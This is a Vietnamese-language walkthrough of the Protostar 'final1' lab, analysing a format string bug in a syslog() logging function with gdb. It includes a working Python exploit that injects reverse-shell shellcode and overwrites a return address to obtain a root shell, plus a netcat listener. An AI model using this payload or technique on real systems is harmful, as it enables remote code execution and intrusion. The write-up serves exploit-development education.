

# **final1**
## Source code
```
#include "../common/common.c"

#include <syslog.h>

#define NAME "final1"
#define UID 0
#define GID 0
#define PORT 2994

char username[128];
char hostname[64];

void logit(char *pw)
{
  char buf[512];

  snprintf(buf, sizeof(buf), "Login from %s as [%s] with password [%s]\n", hostname, username, pw);

  syslog(LOG_USER|LOG_DEBUG, buf);
}

void trim(char *str)
{
  char *q;

  q = strchr(str, '\r');
  if(q) *q = 0;
  q = strchr(str, '\n');
  if(q) *q = 0;
}

void parser()
{
  char line[128];

  printf("[final1] $ ");

  while(fgets(line, sizeof(line)-1, stdin)) {
      trim(line);
      if(strncmp(line, "username ", 9) == 0) {
          strcpy(username, line+9);
      } else if(strncmp(line, "login ", 6) == 0) {
          if(username[0] == 0) {
              printf("invalid protocol\n");
          } else {
              logit(line + 6);
              printf("login failed\n");
          }
      }
      printf("[final1] $ ");
  }
}

```

- Lắng nghe ở cổng 2994.
- giao thức:
  - username ...
  - login ...
    - login mà chưa có username => "invalid protocol\n"
    - login mà đã có username: server chạy lệnh "snprintf()" và "syslog()"
- Ta có thể format attack qua hàm syslog() do cú pháp hàm syslog là:
  ```
  void syslog(int priority, const char *format, ...);
  ```
## Tools
- gdb
- python
- netcat

## Phân tích chương trình
Dùng gdb để debug final1:
- set follow-fork-mode child
- set disassembly-flavor intel
- define hook-stop
  - x/3i $eip
  - x/64w $esp
  - end

Dùng ```nc 127.0.0.1 2994``` để connect tới server:
```
user@protostar:/tmp$ nc 127.0.0.1 2994
[final1] $ username long
[final1] $ login password
```

Quan sát gdb:
- breakpoint ngay sau hàm snprintf(), thấy các bytes ở địa chỉ 0xbffff4d0 thay đổi:
  ```
  (gdb) 
  0x80498d9 <logit+63>:   lea    eax,[ebp-0x208]
  0x80498df <logit+69>:   mov    DWORD PTR [esp+0x4],eax
  0x80498e3 <logit+73>:   mov    DWORD PTR [esp],0xf
  0xbffff4b0:     0xbffff4d0      0x00000200      0x08049ee4      0x0804a2a0
  0xbffff4c0:     0x0804a220      0xbffff6f6      0xb7fd7ff4      0xbffff548
  0xbffff4d0:     0x69676f4c      0x7266206e      0x31206d6f      0x302e3732
  0xbffff4e0:     0x312e302e      0x3837333a      0x61203533      0x6c5b2073
  0xbffff4f0:     0x5d676e6f      0x74697720      0x61702068      0x6f777373
  ```
- x/s 0xbffff4d0 để in ra một string ở địa chỉ 0xbffff4d0 => đây đúng là địa chỉ bắt đầu buffer:
  ```
  (gdb) x/s 0xbffff4d0
  0xbffff4d0:      "Login from 127.0.0.1:37835 as [long] with password [password]\n"
  ```

Thử lại với username và password có chứa string format:
```
user@protostar:/tmp$ nc 127.0.0.1 2994
[final1] $ username %x%s%d
[final1] $ login %124x%4$hhn
```
Quan sát buffer:
```
(gdb) x/s 0xbffff4d0
0xbffff4d0:      "Login from 127.0.0.1:37836 as [%x%s%d] with password [%124x%4$hhn]\n"
```
Mà buffer được pass trực tiếp vào hàm syslog() => format attack

## Exploit

Sử dụng kĩ thuật format attack như trong format3:
  - Sử dụng shellcode reversed shell như final0
  - Để shell code ở username
  - Sử dụng password chứa string format thích hợp để thay đổi return address thành địa chỉ của shellcode

Sử dụng gdb tìm được return address của logit() ở stack 0xbffff6dc có giá trị là 0x080499ef

Thử thay shellcode vào username
```
import socket
import struct

shellcode = "\x31\xc0\x31\xdb\x50\x40\x50\x40\x50\x89\xe1\xb0\x33\x04\x33\x43\xcd\x80\x89\xc6\x31\xc0\x50\xc6\x04\x24\x7f\xc6\x44\x24\x03\x01\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\xb0\x33\x04\x33\x50\x51\x56\x89\xe1\x43\xcd\x80\x31\xd2\x87\xca\xb1\x03\x89\xf3\x31\xc0\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x51\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"

s = socket.socket()
s.connect(("127.0.0.1", 2994))

data = s.recv(1024)
print(data)

s.send("username " + shellcode + "\n")
data = s.recv(1024)
print(data)

s.send("login password\n")
data = s.recv(1024)
print(data)

s.close()
```
Quan sát stack, thấy shellcode ở địa chỉ 0xbffff4ef:



Ta cần chỉnh sửa return address ở stack 0xbffff6dc đang có giá trị 0x080499ef thành địa chỉ của shellcode là 0xbffff4ef:
- Tại địa chỉ 0xbfff6dc: đang là ef => giữ nguyên
- Tại địa chỉ 0xbfff6dd: đang là 99 => đổi thành f4
- Tại địa chỉ 0xbfff6de: đang là 04 => đổi thành ff
- Tại địa chỉ 0xbfff6df: đang là 08 => đổi thành bf

Final python script:
```
import socket
import struct

shellcode = "\x31\xc0\x31\xdb\x50\x40\x50\x40\x50\x89\xe1\xb0\x33\x04\x33\x43\xcd\x80\x89\xc6\x31\xc0\x50\xc6\x04\x24\x7f\xc6\x44\x24\x03\x01\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\xb0\x33\x04\x33\x50\x51\x56\x89\xe1\x43\xcd\x80\x31\xd2\x87\xca\xb1\x03\x89\xf3\x31\xc0\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\xb0\x3f\x49\xcd\x80\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x51\x89\xe1\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"

s = socket.socket()
s.connect(("127.0.0.1", 2994))

data = s.recv(1024)
print(data)

s.send("username " + shellcode + "\n")
data = s.recv(1024)
print(data)

s.send("login a" + "\xdd\xf6\xff\xbf" + "\xde\xf6\xff\xbf" + "\xdf\xf6\xff\xbf" + "%23x%48$hhn" + "%53x%46$hhn" + "%11x%47$hhn" + "\n")
data = s.recv(1024)
print(data)

s.close()
```
Trong đó:
- shellcode để ở username
- địa chỉ của 3 bytes cần thay đổi đưa vào stack thông qua "login"
- "%23x%48$hhn":
  - word thứ 48 trong stack là một trong các địa chỉ chúng ta cho vào stack: "\xdf\xf6\xff\xbf"
  - số ký tự trước đó + 23 = 0xbf
  => sửa byte ở 0xbffff6df thành 0xbf
- "%53x%46$hhn":
  - tương tự word thứ 46 trong stack là "\xdd\xf6\xff\xbf"
  - số ký tự trước đó + 53 = 0xf4
  => sửa byte ở 0xbffff6dd thành 0xf4
- "%11x%47$hhn":
  - tương tự word thứ 47 trong stack là "\xde\xf6\xff\xbf"
  - số ký tự trước đó + 11 = 0xff
  => sửa byte ở 0xbffff6de thành 0xff

=> sửa được return address của hàm logit() thành địa chỉ shellcode
Kết quả:
```
$ nc -l -p 4444
whoami
root
```

# References
